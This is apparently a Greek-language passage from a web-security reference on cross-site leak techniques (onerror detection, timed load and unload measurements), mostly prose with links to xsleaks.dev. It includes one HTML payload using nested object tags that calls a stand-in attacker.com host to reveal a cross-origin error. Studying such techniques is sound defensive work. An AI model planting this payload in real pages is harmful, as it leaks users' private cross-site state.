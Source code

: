 {% content-ref url="xs-search/cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](xs-search/cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

Το παράδειγμα κώδικα προσπαθεί να **φορτώσει αντικείμενα scripts από το JS**, αλλά **άλλες ετικέτες** όπως αντικείμενα, φύλλα στυλ, εικόνες, ήχοι μπορούν επίσης να χρησιμοποιηθούν. Επιπλέον, είναι επίσης δυνατό να ενσωματώσετε τη **σήμανση απευθείας** και να δηλώσετε τα συμβάντα `onload` και `onerror` μέσα στη σήμανση (αντί να το ενσωματώσετε από το JS).

Υπάρχει επίσης μια έκδοση αυτής της επίθεσης χωρίς κώδικα:
```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```
### Χρονοποιημένη Φόρτωση

* **Μέθοδοι Ενσωμάτωσης**: Στοιχεία HTML
* **Ανιχνεύσιμη Διαφορά**: Χρονομέτρηση (συνήθως λόγω περιεχομένου σελίδας, κωδικού κατάστασης)
* **Περισσότερες πληροφορίες**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Σύνοψη:** Το [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** μπορεί να χρησιμοποιηθεί για να μετρήσει πόσο χρόνο απαιτείται για την εκτέλεση μιας αίτησης. Ωστόσο, μπορούν να χρησιμοποιηθούν και άλλοι χρονομετρητές, όπως το [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) που μπορεί να αναγνωρίσει εργασίες που εκτελούνται για περισσότερο από 50ms.
* **Παράδειγμα Κώδικα**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) ένα άλλο παράδειγμα στο:

{% content-ref url="xs-search/performance.now-example.md" %}
[performance.now-example.md](xs-search/performance.now-example.md)
{% endcontent-ref %}

#### Χρονοποιημένη Φόρτωση + Επιβολή Βαριάς Εργασίας

Αυτή η τεχνική είναι παρόμοια με την προηγούμενη, αλλά ο **επιτιθέμενος** θα επιβάλει επίσης κάποια ενέργεια που θα πάρει **σημαντικό χρόνο** όταν η **απάντηση είναι θετική ή αρνητική** και θα μετρήσει αυτόν τον χρόνο.

{% content-ref url="xs-search/performance.now-+-force-heavy-task.md" %}
[performance.now-+-force-heavy-task.md](xs-search/performance.now-+-force-heavy-task.md)
{% endcontent-ref %}

### Χρονοποιημένη Αποφόρτωση/Πριν από την Αποφόρτωση

* **Μέθοδοι Ενσωμάτωσης**: Frames
* **Ανιχνεύσιμη Διαφορά**: Χρονομέτρηση (συνήθως λόγω περιεχομένου σελίδας, κωδικού κατάστασης)
* **Περισσότερες πληροφορίες**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Σύνοψη:** Το [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers) μπορεί να χρησιμοποιηθεί για να μετρήσει πόσο χρόνο απαιτείται για την εκτέλεση μιας αίτησης. Μπορούν να χρησιμοποιηθούν και άλλοι χρονομετρητές.
* **Παράδειγμα Κώδικα**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
